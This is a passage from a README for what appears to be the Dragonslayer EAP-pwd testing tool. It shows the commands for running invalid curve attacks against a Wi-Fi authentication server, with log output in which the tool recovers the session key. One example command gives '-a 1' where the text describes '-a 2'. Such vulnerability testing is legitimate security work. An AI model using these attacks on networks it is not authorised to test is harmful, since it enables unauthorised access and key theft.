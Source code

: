 ## Invalid curve attack

To test whether an EAP-pwd server is vulnerable to invalid curve attacks, start `dragonslayer-client.sh` using the `-a 1` parameter. You must also specify the wireless interface to use with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	[sudo] password for mathy: 
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:21:18] 38:2c:4a:c1:69:c0: sending a scalar equal to zero
	[03:21:18] 38:2c:4a:c1:69:c0: sending generator of small subgroup as the element
	[03:21:18] 38:2c:4a:c1:69:c0: trying to recover session key..
	[03:21:18] 38:2c:4a:c1:69:c0: successfully recovered the session key. Server is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	wlp2s0: WPA: Key negotiation completed with 38:2c:4a:c1:69:c0 [PTK=CCMP GTK=CCMP]
	wlp2s0: CTRL-EVENT-CONNECTED - Connection to 38:2c:4a:c1:69:c0 completed [id=0 id_str=]

Notice that the tool will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not displayed, try performing the attack a few times again. If none of the attack attempts succeed, the EAP-pwd server is not vulnerable to this specific attack. In this case, also try attacking the EAP-pwd server using a small variant of the invalid curve attack using the `-a 2` parameter:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	...

Similar to the case above, it will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not displayed after several attempts, the EAP-pwd server is not vulnerable to this specific attack.

If the tool doesn't seem to be working, remember that you can let it output more debug messages using for example `./dragonslayer-client.sh -i wlan0 -a 1 -d`. We also recommend that you audit the server code to check that it validates the received scalar and Elliptic Curve point. It can be that these specific attacks don't work, but that more specialized attacks do work.


## Reflection attack
